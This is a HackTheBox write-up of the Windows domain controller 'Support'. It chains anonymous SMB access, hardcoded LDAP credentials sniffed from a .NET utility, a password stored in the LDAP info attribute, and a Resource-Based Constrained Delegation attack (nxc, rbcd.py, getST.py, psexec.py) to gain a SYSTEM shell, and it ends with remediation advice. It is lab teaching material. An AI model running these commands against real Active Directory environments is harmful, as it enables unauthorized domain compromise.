





`[ACTIVE DIRECTORY]` `[BLOODHOUND]` `[LDAP]` `[RBCD]` `[REVERSE ENGINEERING]` `[SMB]` `[WINRM]`


**Machine Write-Up**

---

**Platform:** HackTheBox    
**Difficulty:** Easy   
**Operating System:** Windows Server 2022 Build 20348

---

## Objective / Scope

Support is a Windows Active Directory machine exposing an SMB share accessible without credentials. The attack surface opens through an internally developed .NET utility left on a world-readable share, whose hardcoded LDAP bind credentials are recoverable through traffic capture or decompilation. The objective is to pivot from unauthenticated enumeration to Domain Admin by chaining credential extraction, LDAP attribute abuse, and a Resource-Based Constrained Delegation attack against the Domain Controller.

---

<details>
<summary>Summary</summary>

Nmap identifies a Windows domain controller at `support.htb` exposing DNS, Kerberos, LDAP, SMB, and WinRM. Anonymous SMB enumeration surfaces a readable share, `support-tools`, containing a .NET executable, `UserInfo.exe`, that stands apart from the generic IT tooling by its creation timestamp. Running the binary under Mono while capturing traffic on `tun0` reveals it performs a simple LDAP bind with hardcoded credentials before issuing directory queries. The bind request, intercepted in Wireshark, exposes the `ldap` service account password in plaintext. Authenticated enumeration with `nxc` yields 20 domain users and confirms no password reuse across the domain. BloodHound, ingested with SharpHound data, shows `ldap` is a dead end but that the `support` user — a member of the `Shared Support Accounts` group — holds `GenericAll` over the Domain Controller object. A direct LDAP attribute query for `support` reveals the user's password stored verbatim in the non-standard `info` field, invisible to BloodHound's default collection. Authenticating as `support` via Evil-WinRM yields the user flag. To escalate, a fake computer account (`FAKEBOX$`) is created using the `support` credentials; Impacket's `rbcd.py` writes the attacker-controlled account's SID into `msDS-AllowedToActOnBehalfOfOtherIdentity` on the DC object; `getST.py` obtains a CIFS service ticket impersonating `Administrator` via S4U2Proxy; and `psexec.py` delivers an `NT AUTHORITY\SYSTEM` shell.

</details>

---

## Recon

### Nmap

```bash
nmap -sC -sV -Pn <DC_IP>
```

```
# Console Output
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-20 18:25:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The service fingerprint is unambiguous: DNS, Kerberos (88), LDAP (389/3268), SMB (445), and WinRM (5985) collectively identify a Windows domain controller. The domain is `support.htb` — add it and `DC.support.htb` to `/etc/hosts` before proceeding.

---

## Foothold

### SMB Anonymous Enumeration

```bash
nxc smb support.htb -u "DoesNotExist" -p "" --shares
```

```
# Console Output
SMB         <DC_IP>    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         <DC_IP>    445    DC               [+] support.htb\guest:
SMB         <DC_IP>    445    DC               Share           Permissions     Remark
SMB         <DC_IP>    445    DC               -----           -----------     ------
SMB         <DC_IP>    445    DC               ADMIN$                          Remote Admin
SMB         <DC_IP>    445    DC               C$                              Default share
SMB         <DC_IP>    445    DC               IPC$            READ            Remote IPC
SMB         <DC_IP>    445    DC               NETLOGON                        Logon server share
SMB         <DC_IP>    445    DC               support-tools   READ            support staff tools
SMB         <DC_IP>    445    DC               SYSVOL                          Logon server share
```

Null authentication succeeds and `support-tools` is readable. We connect with `smbclient`:

```bash
smbclient -N //support.htb/support-tools
```

```
# Console Output
smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe   A 44398000  Sat May 28 07:19:43 2022
```

Every binary on this share is generic IT tooling — 7-Zip, Notepad++, PuTTY, Sysinternals, WinDirStat, Wireshark — except `UserInfo.exe.zip`. Critically, it was added on `Wed Jul 20`, while every other file dates to `Sat May 28`. A custom executable uploaded separately and later than the rest is a strong signal of operational tooling deserving close inspection.

```
smb: \> get UserInfo.exe.zip
```

### .NET Executable Analysis — UserInfo.exe

Unzipping the archive reveals `UserInfo.exe` alongside a cluster of `.dll` files — `Microsoft.Extensions.*`, `CommandLineParser.dll`, `System.Memory.dll` — a dependency set typical of a .NET Framework console application. Confirming:

```bash
file UserInfo.exe
```

```
# Console Output
UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly, 3 sections
```

A .NET assembly is Intermediate Language (IL) bytecode designed to run on the Common Language Runtime (CLR). On Linux, Mono re-implements the CLR and JIT-compiles the IL at runtime, allowing us to execute it directly:

```bash
mono UserInfo.exe
```

```
# Console Output
Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

```bash
mono UserInfo.exe -v find -first jhaxx
```

```
# Console Output
[*] LDAP query to use: (givenName=jhaxx)
[-] Exception: No Such Object
```

The verbose flag exposes the LDAP filter being constructed before the query fires. The binary is querying the domain's LDAP directory — and to do so, it must authenticate first. That authentication almost certainly uses hardcoded credentials embedded in the assembly. Rather than decompiling statically, we capture the wire traffic directly to confirm.

### Credential Extraction — Wireshark Packet Capture

With Wireshark listening on `tun0`, we re-run the same command. The binary performs a simple LDAP bind over an unencrypted connection, transmitting the service account password in plaintext:





Following the TCP stream surfaces the bind DN and cleartext password:



```
# Console Output
ldap:<PASSWORD REDACTED>
```

The `ldap` service account authenticates using LDAP simple bind with no transport security — any observer on the path between the client and the DC sees the password verbatim. This is the root cause: the application neither uses Kerberos nor enforces LDAPS.

### Authenticated Enumeration

With valid credentials we expand our enumeration surface. First, generate `/etc/hosts` entries:

```bash
nxc smb <DC_IP> -u "ldap" -p '<PASSWORD REDACTED>' --generate-hosts-file hosts
```

```
# Console Output
DC.support.htb support.htb DC
```

Listing all domain users:

```bash
nxc smb support.htb -u "ldap" -p '<PASSWORD REDACTED>' --users
```

```
# Console Output
SMB         <DC_IP>    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) ...
SMB         <DC_IP>    445    DC               [+] support.htb\ldap:<PASSWORD REDACTED>
SMB         <DC_IP>    445    DC               -Username-                    -Last PW Set-       -BadPW-
SMB         <DC_IP>    445    DC               Administrator                 2022-07-19 17:55:56 0
SMB         <DC_IP>    445    DC               Guest                         2022-05-28 11:18:55 0
SMB         <DC_IP>    445    DC               krbtgt                        2022-05-28 11:03:43 0
SMB         <DC_IP>    445    DC               ldap                          2022-05-28 11:11:46 0
SMB         <DC_IP>    445    DC               support                       2022-05-28 11:12:00 0
SMB         <DC_IP>    445    DC               smith.rosario                 2022-05-28 11:12:19 0
SMB         <DC_IP>    445    DC               hernandez.stanley             2022-05-28 11:12:34 0
SMB         <DC_IP>    445    DC               wilson.shelby                 2022-05-28 11:12:50 0
SMB         <DC_IP>    445    DC               anderson.damian               2022-05-28 11:13:05 0
SMB         <DC_IP>    445    DC               thomas.raphael                2022-05-28 11:13:21 0
...
SMB         <DC_IP>    445    DC               [*] Enumerated 20 local users: SUPPORT
```

> **Rabbit Hole — Password Reuse**
>
> With a valid domain credential and no lockout threshold (`Account Lockout Threshold: None`), a password spray is safe to run. Spraying the `ldap` password across all 20 domain users produces no hits. The credential is not reused elsewhere in the domain.

> **Rabbit Hole — AS-REP Roasting**
>
> AS-REP roasting targets accounts with Kerberos pre-authentication disabled. Querying all users against LDAP returns no hashes — no accounts in this domain have `UF_DONT_REQUIRE_PREAUTH` set, making this path a dead end.

### BloodHound — Attack Path Discovery

After collecting domain data with SharpHound and ingesting it into BloodHound, running "Shortest Path to Domain Admins" from `ldap` reveals a path routing through the `support` user:





The `support` user is a member of `Shared Support Accounts`, which holds `GenericAll` over the `DC$` computer object. `GenericAll` is the most permissive Active Directory right — it subsumes WriteProperty, WriteDACL, and GenericWrite. Against a computer object, this enables writing `msDS-AllowedToActOnBehalfOfOtherIdentity`, the attribute that controls Resource-Based Constrained Delegation. We need to become `support`.

### LDAP Info Field — Credentials in a Non-Standard Attribute

BloodHound collects standard user attributes including `description`, but ignores non-standard fields like `info`. We query the full attribute set for the `support` account directly via `nxc`:

```bash
nxc ldap dc.support.htb -u ldap -p '<PASSWORD REDACTED>' --query "(sAMAccountName=support)" "*"
```

```
# Console Output
LDAP        <DC_IP>  389    DC               [+] support.htb\ldap:<PASSWORD REDACTED>
LDAP        <DC_IP>  389    DC               [+] Response for object: CN=support,CN=Users,DC=support,DC=htb
LDAP        <DC_IP>  389    DC               cn                   support
LDAP        <DC_IP>  389    DC               c                    US
LDAP        <DC_IP>  389    DC               l                    Chapel Hill
LDAP        <DC_IP>  389    DC               info                 <PASSWORD REDACTED>
LDAP        <DC_IP>  389    DC               memberOf             CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
LDAP        <DC_IP>  389    DC                                    CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
LDAP        <DC_IP>  389    DC               distinguishedName    CN=support,CN=Users,DC=support,DC=htb
...
```

The `info` attribute contains the user's password in cleartext. The `info` field is readable by every authenticated domain user by default — administrators who store credentials here, often as a convenient sticky note, are unaware they are broadcasting them to the entire domain. BloodHound's standard collection does not surface this data, making it a blind spot for defenders relying solely on BloodHound output.

Confirming the credential authenticates:

```bash
nxc smb support.htb -u support -p '<PASSWORD REDACTED>'
```

```
# Console Output
SMB         <DC_IP>    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         <DC_IP>    445    DC               [+] support.htb\support:<PASSWORD REDACTED>
```

The `support` user is also a member of `Remote Management Users`, confirming WinRM access. We connect with Evil-WinRM:

```bash
evil-winrm -i support.htb -u support -p '<PASSWORD REDACTED>'
```

```
# Console Output
*Evil-WinRM* PS C:\Users\support>
```

```
*Evil-WinRM* PS C:\Users\support> type desktop\user.txt
```

```
# Console Output
<FLAG REDACTED>
```

---

## Privilege Escalation

### Resource-Based Constrained Delegation (RBCD)

The `support` user's `GenericAll` right over `DC$` allows writing any attribute on the computer object, including `msDS-AllowedToActOnBehalfOfOtherIdentity`. This attribute holds a security descriptor listing which principals may request service tickets on behalf of arbitrary users — the foundation of RBCD. We exploit this in four steps.

**Step 1 — Create an attacker-controlled computer account.**

Any domain user can register machine accounts up to the `MachineAccountQuota` limit (default: 10). We use `nxc`'s `add-computer` module:

```bash
nxc ldap dc.support.htb -u support -p '<PASSWORD REDACTED>' -M add-computer -o NAME=FAKEBOX$ PASSWORD='Password123!'
```

```
# Console Output
LDAP        <DC_IP>  389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) ...
LDAP        <DC_IP>  389    DC               [+] support.htb\support:<PASSWORD REDACTED>
ADD-COMP... <DC_IP>  389    DC               Successfully added "FAKEBOX$" with password "Password123!"
```

**Step 2 — Write RBCD trust to the DC object.**

`rbcd.py` writes a security descriptor into `msDS-AllowedToActOnBehalfOfOtherIdentity` on `DC$`, authorising `FAKEBOX$` to perform S4U2Proxy delegation on its behalf:

```bash
rbcd.py -delegate-from 'FAKEBOX$' -delegate-to 'DC$' -action 'write' -dc-ip <DC_IP> 'support.htb/support:<PASSWORD REDACTED>'
```

```
# Console Output
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKEBOX$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKEBOX$     (S-1-5-21-1677581083-3380853377-188903654-6102)
```

**Step 3 — Obtain a CIFS service ticket impersonating Administrator.**

The S4U2Self/S4U2Proxy Kerberos extensions allow a service to request a ticket for any user and forward it to a back-end service. `getST.py` exercises both: S4U2Self first obtains a forwardable TGS for `Administrator` addressed to `FAKEBOX$`, then S4U2Proxy exchanges it for a CIFS ticket to `DC$`:

```bash
getST.py -spn 'cifs/dc.support.htb' -impersonate 'Administrator' -dc-ip <DC_IP> 'support.htb/FAKEBOX$:Password123!'
```

```
# Console Output
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

**Step 4 — Authenticate with the ccache ticket.**

```bash
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

```bash
psexec.py -k -no-pass dc.support.htb
```

```
# Console Output
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file RmKDSOfq.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service IcFL on dc.support.htb.....
[*] Starting service IcFL.....
Microsoft Windows [Version 10.0.20348.859]

C:\Windows\system32> whoami
nt authority\system
```

```
C:\Users\Administrator\Desktop> type root.txt
```

```
# Console Output
<FLAG REDACTED>
```

---

## Remediation

- **Anonymous SMB access:** Disable null session authentication on all domain controllers. The `support-tools` share must require authenticated access with a least-privilege domain account, not guest-level read. Audit all shares for `Everyone` or `Authenticated Users` read permissions.
- **Hardcoded credentials in internal tooling:** `UserInfo.exe` embeds its LDAP bind password directly in the binary — trivially extracted by decompilation or traffic capture. Service account credentials must be stored externally (Windows Credential Manager, DPAPI-protected storage, or a secrets vault) and injected at runtime. Rotate the exposed `ldap` account password immediately.
- **Unencrypted LDAP simple bind:** Configure domain controllers to require LDAP signing and channel binding (`LdapEnforceChannelBinding`, `ldapserverintegrity`), and enforce LDAPS (TCP 636) for all directory queries from internal tooling. Simple bind over port 389 transmits credentials in cleartext and must be disabled.
- **Credentials stored in the LDAP `info` attribute:** The `info` field is readable by every authenticated domain user. Credentials must never be stored in directory attributes. Audit all user and computer objects for non-empty `info`, `description`, and `comment` fields and purge any credential material found.
- **Excessive MachineAccountQuota:** Reduce the domain-level `ms-DS-MachineAccountQuota` to `0` for all non-administrative users. Machine account creation should be delegated only to designated IT accounts, preventing any domain user from registering attacker-controlled computer objects for RBCD exploitation.
- **GenericAll from Shared Support Accounts to DC$:** The `Shared Support Accounts` group has no legitimate need for `GenericAll` over the Domain Controller computer object. Remove this delegation immediately and apply least-privilege ACLs. Regularly audit high-value object ACLs — particularly Domain Controllers, AdminSDHolder, and the Domain object itself — using BloodHound or `Get-ACL`.
